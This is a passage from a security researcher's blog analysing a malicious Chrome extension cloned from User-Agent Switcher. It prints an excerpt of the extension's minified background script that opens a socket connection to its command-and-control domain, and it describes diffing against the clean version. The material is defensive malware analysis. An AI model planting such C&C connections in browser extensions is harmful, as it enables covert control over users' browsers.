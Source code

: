 ## Source Code Dissection

Hopping into the extension directory, we're greeted with simple internals - mostly JavaScript, some HTML, CSS, and little else. The extension's files are available [here](https://github.com/partridge-tech/chris-blog/tree/master/_content/2020/extensions-the-next-generation-of-malware/no-publish/) for your own exploration. The JavaScript files have been minified (a space-saving measure), so I "beautified" them with [js-beautify](https://github.com/beautify-web/js-beautify) before beginning - though only the originals have been uploaded.

To try to get an early lead, I searched `www.useragentswitch.com` to see if the C&C domain was hardcoded, on the off chance that the malicious components of this extension weren't [obfuscated](https://github.com/javascript-obfuscator/javascript-obfuscator). Surprisingly, it matched in `js/background.min.js`:

```js
            return chrome.tabs.create({
                url: "http://www.esolutions.se/whatsmyinfo"
            }), !1
        },
        title: "Show User-agent",
        type: "normal"
    })
}
var userAgentSwitch = io("https://www.useragentswitch.com/");

function setUserAgent(e, t, s, n) {
    for (var r, a = 0; a < userAgents.length; a)
```

Even better, we got another lead only a few lines away. What is `esolutions.se/whatsmyinfo`? A quick Google search shows that [eSolutions Nordic AB](https://www.esolutions.se/) is a small development company - one which also dabbles in building useful Chrome extensions, such as... [User-Agent Switcher](https://chrome.google.com/webstore/detail/user-agent-switcher/aedikcfpfonanffanecfolneiaoakmlc)?

![Chrome Web Store's User-Agent Switcher extension page (nonmalicious).](/2020/extensions-the-next-generation-of-malware/store-uas-clean-small.png)

A full screenshot is available [here](/2020/extensions-the-next-generation-of-malware/store-uas-clean-full.png) as well. While this raises many questions - such as "why is there a duplicate extension with a [much older](/2020/extensions-the-next-generation-of-malware/whois-esolutions.se.txt) domain referenced" and "who copied who" - we will revisit those in the [Historical Analysis](#historical-analysis) section. Most immediately, this gives us a very powerful method to trim down the code we'll need to look through.

Unpacking the clean User-Agent Switcher extension (including beautifying its JavaScript), aligning the file structure (to account for the different version folder), and [diffing](https://linux.die.net/man/1/diff) the two extension folders, only a few files are different: `js/background.min.js`, `js/bootstrap.min.js`, `js/JsonValues.min.js`, `manifest.json`, `_metadata/computed_hashes.json`, and `_metadata/verified_contents.json`. Eliminating irrelevant files (metadata and contents), as well as `js/bootstrap.min.js` which contains different *comments* but not different *code*, we're left with only two files to go through: `js/JsonValues.min.js` and `js/background.min.js`, whose diff with their nonmalicious counterparts is [here](/2020/extensions-the-next-generation-of-malware/uas-unpacked-contents.diff).
